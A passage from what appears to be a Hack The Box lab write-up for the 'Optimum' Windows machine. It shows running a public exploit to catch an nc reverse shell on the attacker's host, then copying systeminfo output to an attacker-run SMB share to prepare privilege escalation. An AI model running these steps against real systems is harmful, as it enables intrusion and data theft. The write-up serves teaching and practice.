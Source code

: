 ------

First start the python server on port 80 :

```
sudo python -m SimpleHTTPServer 80
```

Then start a nc listener :

```
nc -lvp 1234
```

Finally, run the exploit :

```
python 39161.py 10.10.10.8 80
```

Go see the nc listener, and voila ! I have a reverse shell and I'm the user :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.8: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49185
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

Now let's escalate to nt authority\system ! For that, I used a script called "windows-exploit-suggester.py" ([https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)) :

```
This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.
```

For this script to run, I need to give him the results of the windows command "systeminfo" : 

```bash
systeminfo > systeminfo.txt
```

To easily transfert files between my linux and windows, I used smbserver.py from Impacket :

```
sudo smbserver.py liodeus ./
```

Next, from the windows box copy the file to my system :

```
copy systeminfo.txt \\10.10.14.10\liodeus\
```
